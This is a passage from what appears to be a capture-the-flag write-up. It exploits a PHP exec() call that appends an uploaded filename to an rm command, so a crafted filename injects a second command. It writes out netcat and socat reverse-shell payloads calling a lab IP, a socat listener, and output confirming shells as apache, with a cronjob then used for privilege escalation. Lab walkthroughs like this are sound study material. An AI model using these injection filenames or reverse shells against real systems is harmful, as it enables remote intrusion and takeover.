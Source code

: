 So the filename ($value) appends to the end of "rm -f /var/www/html/uploads". In the script, the actual code we're manipulating is:

{% highlight php %}
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");                                        
{% endhighlight %}

If we can add a filename that starts with a semicolon and continues with a command, we could add an entirely new command for php exec() to run.

{% highlight php %}
exec("nohup /bin/rm -f $path; command-to-inject; > /dev/null 2>&1 &");                                        
{% endhighlight %}

# The right reverse shell

I had trouble getting netcat to work here. First because of the slashes...

{% highlight plaintext %}
bash-4.2$ touch "; nc 10.10.14.27 4444 -e '/bin/bash'"
touch: cannot touch '; nc 10.10.14.27 4444 -e \'/bin/bash\'': No such file or directory
{% endhighlight %}

So I looked to other shells, like socat. I set up my listener on Kali:

{% highlight plaintext %}
root@kali:~# socat file:`tty`,raw,echo=0 tcp-listen:4444
{% endhighlight %}

Then I create my filename that somehow allows all these punctuation marks (as long as they aren't slashes).

{% highlight plaintext %}
bash-4.2$ touch "; socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.27:4444" 
{% endhighlight %}

And I execute the attack as user apache:

{% highlight plaintext %}
bash-4.2$ php /home/guly/check_attack.php
attack!
nohup: ignoring input and redirecting stderr to stdout
rm -f /var/www/html/uploads/; socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.27:4444
{% endhighlight %}

And I get a shell as apache on my listener. So the test worked.

{% highlight plaintext %}
root@kali:~# socat file:`tty`,raw,echo=0 tcp-listen:4444
bash-4.2$ whoami
apache
{% endhighlight %}

So now for the real deal. On my attacking machine, I kill the second apache shell and create a new socat listener. On the victim machine, I create that socat payload filename. But instead of executing it, I wait for the cronjob to execute as user guly. Within 3 minutes, I have a shell as guly:
